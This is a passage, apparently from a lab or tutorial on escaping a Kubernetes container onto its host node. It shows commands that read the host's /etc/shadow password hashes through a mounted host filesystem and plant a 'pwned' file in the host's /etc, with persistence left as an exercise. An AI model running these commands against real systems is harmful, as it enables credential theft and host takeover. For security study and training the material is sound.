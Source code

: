 ```bash
cat /mnt/host/etc/shadow
touch /mnt/host/etc/pwned
```

Now back on your hostin / attack machine hop into our "node" container.

```bash
docker exce -it arrrspace-control-plane /bin/bash
ls /etc/
```

If you see the `pwned` file then it worked! I will leave gaining persistence on the node as an excersise to the reader ;)
